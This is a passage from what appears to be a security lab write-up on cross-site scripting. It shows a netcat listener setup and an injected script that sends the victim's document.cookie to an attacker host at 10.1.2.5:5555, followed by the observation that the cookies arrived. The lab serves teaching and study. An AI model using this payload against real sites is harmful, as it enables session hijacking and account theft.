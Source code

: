 ## Task 3: Stealing Cookies from the Victim's Machine

**Objective:** Send the victim's cookies to the attacker's server.

**Steps:**
1. Set up a netcat listener on the attacker's machine on port 5555.
2. Modified the script to send a request to the attacker's server with the cookies as a query parameter.

```html
<script>
    document.write('<img src=http://10.1.2.5:5555?c=' + escape(document.cookie) + '>'); 
</script>
```
![Script Injection](images/T3/injectjs.png)
*Script Injection*

![Listening to the port and retrieving cookies](images/T3/cookieget.png)
*Listening to the port and retrieving cookies*


**Observation:**
- The attacker's server received the request containing the victim's cookies.



